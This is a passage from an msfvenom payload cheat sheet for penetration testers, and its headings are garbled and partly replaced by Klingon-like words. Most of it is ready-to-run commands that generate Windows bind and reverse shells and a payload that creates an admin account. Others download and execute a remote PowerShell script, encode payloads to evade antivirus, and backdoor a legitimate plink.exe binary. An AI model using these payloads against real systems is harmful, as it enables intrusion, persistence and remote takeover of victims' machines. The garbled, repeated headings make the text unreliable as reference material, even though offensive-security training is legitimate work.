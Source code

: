 It is important to note that using bind shells can be risky, as they expose the target system to potential attacks. Therefore, it is recommended to use bind shells only in controlled environments and with proper authorization.
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
### lo'la' User

{% code overflow="wrap" %}
```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### CMD Shell

{% code overflow="wrap" %}### CMD Shell

CMD Shell- 'CMD Shell' is a Windows command-line interpreter that allows you to interact with the operating system through a command prompt. It is commonly used for executing commands, running scripts, and performing various administrative tasks on a Windows system.

To generate a payload using msfvenom for a CMD shell, you can use the following command:

```plaintext
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker IP> LPORT=<attacker port> -f exe > shell.exe
```

This command will generate an executable file named 'shell.exe' that will establish a reverse TCP connection to the specified IP address and port. Replace `<attacker IP>` with your IP address and `<attacker port>` with the port you want to use for the connection.

Once you have generated the payload, you can transfer it to the target system and execute it to establish a reverse shell connection.
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```
### **QapHa'**

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### Encoder

{% code overflow="wrap" %}### Encoder

{% code overflow="wrap" %}### Encoder
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### qarDaSqa' executable Daq

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```
{% endcode %}
